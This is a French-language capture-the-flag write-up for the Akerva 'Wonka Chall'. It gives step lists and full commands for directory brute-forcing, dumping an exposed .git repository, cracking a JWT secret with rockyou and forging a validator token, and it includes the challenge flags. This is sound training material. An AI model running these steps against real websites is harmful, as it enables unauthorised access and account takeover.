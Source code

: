 # Wonka Chall

> Akerva

> https://willywonka.shop

## Step 1

More detail: ['Step1'](./step1.md)

1. dirsearch -> .git
2. GitTools -> dumper -> extractor
3. Flag 1 dans .git/COMMIT_EDITMSG

> 16ECD0DF90036C3CA8D6E988BB1737DC332CD72A8F4E62C32E0F825EDD155009

## Step 2

More detail: ['Step2'](./step2.md)

1. trouver le debug=1 dans le .git
2. aller sur la page /reset
3. bf les user -> trouver test
4. https://willywonka.shop/reset?debug=1 -> un jwt + backend.willywonka.shop dans la stacktrace
5. dirsearch sur le backend -> on trouve encore un /reset -> /reset?debug=1 -> set cookie : backend-session=jwt vide
6. bf avec rockyou le secret du jwt qu'on récup dans la stacktrace -> s3cr3t
7. refaire un jwt sur jwt.io avec un compte validateur (genre aas) et une expiration lointaine -> https://backend.willywonka.shop/reset/jwt_craft 
8. faire la meme que etape 4 mais avec le user aas pour se co avec
9. chercher le ticket "deadbeef" et flag

> 7ED33F3EB8E49C5E4BE6B8E2AE270E4018582B27E030D32DE4111DB585EE0318

## Step 3

More detail: ['Step3'](./step3.md)

## Resources

1. GitTools : https://github.com/internetwache/GitTools.git
2. Seclist, username shortlist : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
3. jwt checker : https://jwt.io/
4. jwt_tool : https://github.com/ticarpi/jwt_tool
5. jwt encoder / decoder : https://www.jsonwebtoken.io/

---

## Useful command used

* dirsearch

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u https://willywonka.shop/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -t 25
```

* gittools

```bash
/opt/t/pentest/exploit/GitTools/Dumper/gitdumper.sh https://willywonka.shop/.git/ git_out
/opt/t/pentest/exploit/GitTools/Extractor/extractor.sh git_out git_extract
```

* jwt_tool

```bash
python ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o /opt/t/bf/rockyou.txt
```